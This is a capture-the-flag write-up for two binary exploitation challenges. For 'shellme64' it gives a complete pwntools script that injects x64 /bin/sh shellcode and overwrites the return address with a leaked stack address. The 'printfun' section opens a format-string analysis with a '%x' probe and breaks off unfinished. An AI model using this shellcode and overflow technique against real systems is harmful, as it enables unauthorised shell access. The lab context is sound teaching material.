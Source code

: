 ## shellme64 - 480 pts

This is similar to the shellme32 challenge. We just replace the shellcode with a x64 shellcode. And  replace `p32` with `p64` when adding the stack address to the payload.

We use [exploit-db](https://www.exploit-db.com/exploits/42179) to get the shellcode. The offset of the crash is same as before.

```python
shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
len_shell_code = 24

from pwn import *
# context.log_level = 'debug'
p = process("./shellme64")

offset = 40


p.recvuntil('this\n')
addr = int(p.recvline().strip(), 16)
p.recvuntil('> ')

log.info('Stack Address: ' + str(hex(addr)))

payload = shellcode
payload += "A"*(offset - len(shellcode))

# with open('payload', 'wb') as f:
#     f.write(payload)
payload += p64(addr)

p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(payload)

p.interactive()
```

---

## printfun - 500 pts

Here, on analysing with Ghidra, we find that there is a format string vulnerability.

{% include image.liquid url="/assets/img/posts_images/tuctf/printfun_1.png" %}

So, here first we use GDB to get the addresses of the two buffers being compared. Also, as input if we provide `"%x %x %x %x %x %x %x %x %x %x %x %x %x %x"`, for the instance running on GDB we get this output -
